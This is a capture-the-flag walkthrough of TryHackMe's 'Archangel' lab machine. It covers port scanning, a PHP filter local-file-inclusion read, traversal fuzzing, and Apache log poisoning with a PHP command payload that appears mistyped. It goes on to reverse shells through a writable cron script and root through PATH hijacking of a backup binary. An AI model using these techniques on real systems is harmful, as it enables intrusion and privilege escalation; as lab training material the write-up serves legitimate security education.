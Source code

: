 In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 

![Archangel](archangel.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:
![Archangel Index](aa-index-html.png)

Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.

![Archangel New Domain](aa-new-domain.png)

We can run dirsearch on this new website `dirsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`:
![Archangel Dirsearch](aa-new-domain-dirsearch.png)

We then check "robots.txt" and find another page "test.php" also dirsearch found that page:

![Archangel Test PHP](aa-new-domain-test-php.png)

After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:
![Archangel Test PHP exe](aa-test-php.png)
![Archangel Click](aa-click-button.png)

I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
![Archangel PHP Filter](aa-php-filter.png)

I then decode the encoded string and find the content of the test php file:
![Archangel Decode](aa-decode-test-php.png)

We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:
![Archangel ffuf](aa-ffuf-LFI.png)

I try the first payload in BurpSuite to display the output:
![Archangel Passwd](aa-etc-passwd.png)

We can inspect "/var/log/apache2/access.log" file:
![Archangel Apache2](aa-apache2-log.png)

### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```
![Archangel Poison](aa-posioning.png)

After that we are able to run "ls -la" command:
![Archangel ls](aa-posioning-ls.png)
![Archangel nc](aa-posioning-nc.png)

I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:
![Archangel Transfer PHP Shell](aa-transfer-php-shell.png)
![Archangel Wget](aa-wget.png)
![Archangel PHP Reverse Shell](aa-php-revshell.png)
![Archangel Initial Foothold](aa-initial-foothold.png)

### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:
![Archangel Crontab](aa-crontab.png)

Since we have rights to edit the file, we can run a python revshell:
![Archangel SH](aa-helloworld-sh.png)
![Archangel Lateral Movement](aa-lateral-movement.png)

We now have a shell as archangel:

![Archangel User](aa-archangel-user.png)

In the archangle's home folder there is an exe called backup so let's create a file and made it executable:
![Archangel CP](aa-create-cp.png)

We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:
![Archangel Root](aa-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
